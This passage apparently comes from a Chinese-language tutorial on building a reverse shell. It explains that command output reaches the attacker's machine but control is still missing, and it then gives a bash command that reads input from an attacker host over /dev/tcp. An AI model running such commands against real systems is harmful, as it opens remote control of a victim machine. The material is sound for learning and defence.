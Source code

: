 示意图：

![img](assets/1668671145836-dbadb50e-e8b0-4f3c-a595-48e7e20b733d.png)

如下图所示，任何在受害者机器上执行的指令都不会直接回显了，而是在攻击者机器上回显。

![img](assets/1668671251757-2d00bbf5-9256-41c3-8621-66717413e66b.png)

![img](assets/1668671264587-f49ede01-b4a5-4b32-bc51-b2078c8fa3a1.png)

但是这里有一个问题，攻击者没有能够实现对受害者的控制，攻击者执行的命令没法在受害者电脑上执行。

于是我们似乎还需要一条这样的指令

```shell
bash -i < /dev/tcp/192.168.146.129/2333
```
